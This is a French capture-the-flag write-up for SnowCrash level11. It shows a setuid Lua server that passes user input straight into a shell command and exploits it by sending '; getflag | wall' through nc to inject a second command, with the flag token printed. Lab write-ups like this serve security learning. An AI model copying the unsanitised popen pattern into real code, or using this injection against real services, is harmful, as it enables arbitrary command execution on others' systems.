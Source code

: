 Avec la commande **ls**, on trouve le fichier **level11.lua**

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

En l'examinant, on trouve que c'est un serveur qui va accepter des requêtes de connexion sur le port **5151**, et qui demandera un mot de passe pour se connecter.

```bash
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le mot de passe doit avoir son hash avec sha1sum égal à `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`.

Pour cela, on va sur le site [dcode](https://www.dcode.fr/hash-sha1)

On obtient le résultat : `NotSoEasy`.

Évidemment, ce mot de passe n'est pas le bon, car il permet de se connecter ni à **flag11** ni à **level12**.

```bash
level11@SnowCrash:~$ su flag11
Password: 
su: Authentication failure
level11@SnowCrash:~$ su level12
Password: 
su: Authentication failure
```

Il faut donc trouver un autre moyen de récupérer le flag.

En regardant plus en détail le code, la commande qu'utilise le script est une concaténation de `echo ` + {le mot de passe} + ` | sha1sum`

On peut donc exploiter cette partie en utilisant la commande `getflag`.

```bash
level11@SnowCrash:~$ echo "; getflag | wall" | nc 127.0.0.1 5151

Broadcast Message from flag11@Snow
        (somewhere) at XX:XX ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```

